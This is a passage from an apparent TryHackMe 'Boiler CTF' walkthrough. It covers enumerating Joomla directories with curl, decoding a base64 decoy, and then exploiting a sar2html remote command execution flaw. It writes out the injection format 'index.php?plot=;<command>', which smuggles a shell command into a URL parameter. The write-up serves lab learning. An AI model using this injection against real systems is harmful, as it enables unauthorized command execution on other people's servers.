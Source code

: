 ~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ curl -s "http://$IP/joomla/_files/" | html2text
                  ****** VjJodmNITnBaU0JrWVdsemVRbz0K ******
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ echo "VjJodmNITnBaU0JrWVdsemVRbz0K" | base64 -d | base64 -d
Whopsie daisy
~~~

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ curl -s "http://$IP/joomla/_archive/" | html2text     
                      ****** Mnope, nothin to see. ******
~~~

### Right Path

The only directory that seems useful is `/_test`. When you navigate to this directory, you see `sar2html` in the top. I searched for its vulnerabilities and found [this](https://packetstormsecurity.com/files/153858/Sar2HTML-3.2.1-Remote-Command-Execution.html) post. We can remotely execute commands with the following format:

~~~
http://<URL>/jommla/_test/index.php?plot=;<command>
~~~

## 1.7 - The interesting file name in the folder?

Now that we can execute commands, we can list and read the files. First I listed the files (btw, the outputs are shown in **"Select Host"** dropdown):

<p align="center"><img src="./files/list.png"></p>
